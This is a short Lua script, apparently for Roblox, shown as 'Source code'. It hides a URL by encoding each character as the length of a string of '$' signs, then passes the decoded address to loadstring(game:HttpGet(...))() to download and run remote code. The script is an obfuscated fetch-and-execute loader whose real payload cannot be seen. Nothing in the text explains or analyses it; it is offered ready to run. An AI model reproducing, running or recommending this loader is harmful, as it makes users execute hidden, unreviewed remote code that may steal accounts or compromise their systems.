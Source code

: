 function jsMmbitzoJwuZcoABSdLINKWvMKWWejwXVmDIVJ(c)
tab={}
for i = 1,#c do
x=string.len(c[i]) 
y=string.char(x)
table.insert(tab,y)
end
x=table.concat(tab)
return x
end 


loadstring(game:HttpGet((jsMmbitzoJwuZcoABSdLINKWvMKWWejwXVmDIVJ({'$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$','$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$','$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$','$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$','$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$','$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$','$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$','$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$','$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$','$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$','$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$','$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$','$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$','$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$','$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$','$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$','$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$','$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$','$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$','$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$','$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$','$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$','$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$','$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$','$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$','$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$','$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$','$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$','$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$','$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$','$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$','$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$'})),true))()    
